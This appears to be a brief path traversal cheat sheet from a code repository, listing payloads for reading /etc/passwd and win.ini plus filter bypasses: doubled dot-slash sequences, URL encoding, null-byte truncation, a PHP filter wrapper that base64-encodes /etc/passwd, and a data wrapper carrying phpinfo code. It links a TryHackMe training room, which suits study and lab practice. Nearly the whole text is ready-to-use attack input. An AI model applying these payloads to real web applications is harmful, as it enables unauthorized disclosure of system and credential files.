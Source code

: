 # Path Traversal Cheat Sheet
___
#### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
```txt
Sequence block bypass >> ....//....//....//....//etc/passwd
Encoding ../ >> %2e%2e%2f
Absolute path >> /var/www/images/../../../etc/passwd
Using null byte >> ../../../etc/passwd%00.png
Using PHP wrappers >> php://filter/convert.base64-encode/resource=/etc/passwd
Using Data wrappers >> data:text/plain,<?php phpinfo(); ?>
```
## To learn
https://tryhackme.com/r/room/filepathtraversal
